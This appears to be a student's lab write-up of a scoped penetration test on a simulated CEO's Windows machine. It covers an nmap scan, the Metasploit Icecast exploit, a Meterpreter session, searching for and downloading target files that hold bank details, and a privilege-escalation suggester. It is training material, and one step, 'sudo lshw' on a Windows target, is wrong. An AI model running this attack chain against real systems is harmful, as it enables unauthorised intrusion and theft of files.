 # Penetration_Test_Engagement
Internal penetration test on GoodCorp's CEO, Hans Gruber. The objective is to exploit any vulnerable software and find company files on the CEO's computer.

#### Background

- The CEO claims to have passwords that are long and complex and therefore unhackable.
- The penetration test objective is to access the CEO's computer, and using a Meterpreter session, to search for two files that contain the strings `recipe` and `seceretfile`.

#### Setup 

- Logged onto DVW10 virtual machine.
- Icecast server started to emulate the CEO's computer. 

#### Scope 

- Limited to CEO's workstation only. Only the CEO's IP address can be exploited.
- No other IP addresses to be scanned
- DOS and brute force attacks are prohibited
- No file deletions permissible
- No config changes permissible

#### Deliverable

- All findings were submitted via a report called 'Report.docx'. [Report.docx](Report.docx)

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: 
      First, I needed to work out what IP address the CEO's computer was using. I knew that the network was using the 192.168.0.? range.
      I used nmap
      **nmap -sV "192.168.0.20"
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1701.png)

2. Start SearchSploit

    - Run the SearchSploit commands to show available Icecast exploits.
  
      > Answer: 
      command to run is:
      **searchsploit icecast
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1703.png)
      
3. Start Metasploit

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **msfconsole
      
4. Search for the Icecast module and load it for use

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **search icecast
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1705.png)
      
    - Run the command to use the Icecast module:
    
      > Answer: 
      command to run from Metasploit is:
      **use 0 (0 being the first (and in this case only) module available to be run. We can use the shortcut so we don’t need to type or copy and paste the full module name).
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1706.png)
      
      Next I ran the command to show what options were available within the module:
      **show options

      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1707.png)
      
5. Set the 'RHOST' to the target machine

    - Run the command that sets the 'RHOST':
  
      > Answer: 
      command to run is:
      **set RHOSTS 192.168.0.20
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1708.png)
      
6. Run the Icecast exploit

    - Run the command that runs the Icecast exploit:
  
      > Answer: 
      command to run is:
      **run (exploit will also work)
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1709.png)
      
    - Run the command that performs a search for the `secretfile.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *secretfile.txt
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1710.png)
      
7. Now that a Meterpreter session is open:

    - Run the command to performs a search for the `recipe.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *recipe.txt
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1711.png)
     
    - Run the command that exfiltrates the `recipe*.txt` file:
    
      > Answer: 
      command to run is:
      **download Drinks.recipe.txt
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1712.png)
      
      **I then used the ‘cat’ command to view the contents of both .txt files. The second txt file’s contents contains bank account details.
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1713.png)      
      
      **I then checked that the file has downloaded to my Kali VM:** (using **ls** command)
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1714.png)
      
8. Use Meterpreter's local exploit suggester to find possible exploits:

    - Check for common vulnerabilities:
  
      > Results: 
      I used Meterpreter to check for common vulnerabilities. 
      using the command
      **run post/multi/recon/local_exploit_suggester
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1715.png)    
      
      **The two exploits of concern are
      **•	ikeext_service
      **•	ms16-075

      The ikeext services exploit module exploits a missing DLL loaded by the 'IKE and AuthIP Keyring Modules' (IKEEXT) service which runs as SYSTEM, and starts automatically in default installations of Vista-Win8. It requires an insecure bin path to plant the DLL payload.

      The ms16-075 exploit is a security update that resolves a vulnerability in Microsoft Windows that could allow elevation of privilege if an attacker logs on to the system and runs a specially crafted application.
       
#### Bonus
      
A. Run a Meterpreter post script that enumerates all logged on users.

    - **I googled meterpreter enumerate all logged on users
    
      > Answer:
      **I found the following blog helpful, and I tested various meterpreter commands:
      https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1716.png)   
      
B. Open a Meterpreter shell and gather system information for the target:     

      > Answer: 
      command to run is:
      **shell
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1717.png)
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1718.png)
      
C. Run the command that displays the target's computer system information:     

      > Answer: 
      command to run is:
      **sudo lshw      
